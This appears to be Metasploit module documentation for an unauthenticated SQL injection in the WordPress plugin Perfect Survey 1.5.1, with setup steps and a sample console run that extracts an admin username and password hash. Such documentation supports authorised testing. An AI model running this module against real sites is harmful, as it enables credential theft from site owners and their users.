 # WordPress Plugin Perfect Survey 1.5.1 SQLi (Unauthenticated)

## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information, such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/), or the specific vulnerable version can be found here: [Perfect Survey 1.5.1](https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip).

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Start `msfconsole`.
3. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
4. Set the target host: `set RHOSTS [ip]`.
5. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
6. Execute the module: `run`.
7. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

### TARGETURI
This option specifies the base path to the WordPress installation. Default is `/`.

### SHOW_FULL_RESPONSE
If set to `true`, the module will print the entire JSON response received from the server when username and password hash extraction fails. Default is `false`.

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```plaintext
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > check

[*] Sending HTTP GET request to check the plugin version...
[*] The target appears to be running Perfect Survey plugin version 1.5.1.
[+] The target appears to be vulnerable.
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > run

[*] Exploiting SQLi in Perfect Survey plugin...
[+] Received a response from the server!
[+] Extracted Username: admin
[+] Extracted Password Hash: $P$BPUcVygZO/z1DqvPoEYQILBgsyi7tf0
[*] Auxiliary module execution completed.
```